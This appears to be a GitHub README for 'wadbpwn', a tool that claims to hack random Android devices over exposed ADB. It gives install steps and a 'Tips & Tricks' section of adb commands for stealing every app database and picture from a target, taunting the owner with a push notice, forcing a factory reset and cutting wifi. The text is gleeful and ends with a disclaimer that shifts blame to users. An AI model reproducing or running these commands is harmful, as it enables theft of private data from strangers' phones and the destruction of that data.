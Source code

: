 # wadbpwn

#### Hack a random android device with 100% guarantee to succeed within 1 second.

![Screenshot](https://nr1.nu/archive/wadbpwn/wadbpwn.gif)

![Download wadpwn](https://pastebin.com/DtFSMBsF)

### Get Started On Linux/MacOSX
 
    git clone https://github.com/wuseman/wadbpwn
    cd wadbpwn
    chmod +x wadb*
    bash ./wadbpwn.sh
    
    - Wait ~1 second
    
    Target has been pwned!

    Enjoy ;-)

### Get Started On Windows 10

    Install any linux distro from microsoft store and run commands above..


## Tips & Tricks made by wuseman

### Steal all databases from the device ( require root )

    which su &> /dev/null
    if [[ $? -eq "0" ]]; then
       adb pull /data/data/ /some/path
    else
       printf "* No root detected, just try another target..\n"
       exit 1
    fi

### Steal all pictures: 
##### A simple example: 

    PICS="$(adb shell 'su -c find / \( -name '*.png' -name '*.jpg*' \)')"
    for pictures in $PICS; do
       adb pull -p $PICS /some/folder
     done
    printf "Done..is it your lucky day? ;-)\n"

### Let the owner know that you have hacked him, send a push notice:

    adb shell am broadcast -a com.google.android.c2dm.intent.RECEIVE -n <your.app.package>/com.google.android.gms.gcm.GcmReceiver --es "You h4v3 b33n h3cked mat3" "hrhr!"

### For be an d*ck and do a factory reset of the device: 

    adb shell am broadcast -a android.intent.action.MASTER_CLEAR
    adb shell reboot 

### For be device owners hero for a day you should shut down the targets wifi connection, but why? 

    adb shell svc wifi disable

### System requirements

- Android Debug Bridge (adb) - Find more info about _adb_ [here](https://developer.android.com/studio/command-line/adb)

## Changelog

[Versions changelog](CHANGELOG.md).

## Authors: 

* **wuseman <wuseman@nr1.nu\>** 

## License

This project is licensed under the GNU General Public License v3.0 - see the [LICENSE.md](LICENSE.md) file for details


### Contact

  If you have problems, questions, ideas or suggestions please contact me on the e-email under _Authors_ or you can chat with me for faster contact by visit freenode chat and type '/msg wuseman hi!' in the input bar and I will reply you ASAP I will see the message.
  
  Enter Freenode chat via your own client or use the web client by visit this ![page](https://webchat.freenode.net/)

### Haters Gonna Hate

  wuseman cannot be held as responsible for users actions regardless of what damage a user can do. All users that  gathering information or data via wadbpwn is 100% responsible for their own actions, wadbpwn has been developed for a legal purpose.


 
